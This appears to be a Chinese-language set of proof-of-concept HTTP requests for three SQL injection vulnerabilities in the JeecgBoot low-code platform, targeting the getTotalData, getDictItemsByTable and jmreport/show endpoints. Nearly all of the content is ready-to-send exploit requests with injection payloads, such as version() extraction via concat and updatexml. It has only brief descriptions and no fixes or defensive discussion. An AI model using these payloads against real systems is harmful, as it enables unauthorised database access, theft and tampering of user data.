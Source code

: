  
## JeecgBoot onlDragDatasetHead/getTotalData SQL注入  

```
JeecgBoot v3.7.1 通过组件 /onlDragDatasetHead/getTotalData 存在 SQL 注入漏洞。
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/2
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Content-Length: 281
{&#34;tableName&#34;:&#34;sys_user&#34;,&#34;compName&#34;:&#34;test&#34;,&#34;condition&#34;:{&#34;filter&#34;:{}},&#34;config&#34;:{&#34;assistValue&#34;:[],&#34;assistType&#34;:[],&#34;name&#34;:[{&#34;fieldName&#34;:&#34;concat(0x7e,version(),0x7e)&#34;,&#34;fieldType&#34;:&#34;string&#34;},{&#34;fieldName&#34;:&#34;id&#34;,&#34;fieldType&#34;:&#34;string&#34;}],&#34;value&#34;:[{&#34;fieldName&#34;:&#34;id&#34;,&#34;fieldType&#34;:&#34;1&#34;}],&#34;type&#34;:[]}}
```

  
## jeecg-boot-getDictItemsByTable SQL注入漏洞  
  
JeecgBoot是一款基于代码生成器的低代码开发平台，它专为简化Java项目开发流程、提高开发效率而设计。攻击者通过注入恶意的SQL代码，能够窃取、篡改或删除数据库中的数据，甚至执行系统命令，对网站和服务器造成严重影响。  
  

```
GET /jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Purpose: prefetch
Connection: close
Priority: u=6
```

  
## Jeecg-Boot /jmreport/show SQL注入漏洞  

```
jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id 参数存在SQL注入漏洞。
POST /jeecg-boot/jmreport/show HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Content-Length: 182
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip
{
&#34;id&#34;: &#34;961455b47c0b86dc961e90b5893bff05&#34;,
&#34;apiUrl&#34;: &#34;&#34;,
&#34;params&#34;: {
&#34;id &#34;: &#34;1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '&#34;
}
}
```
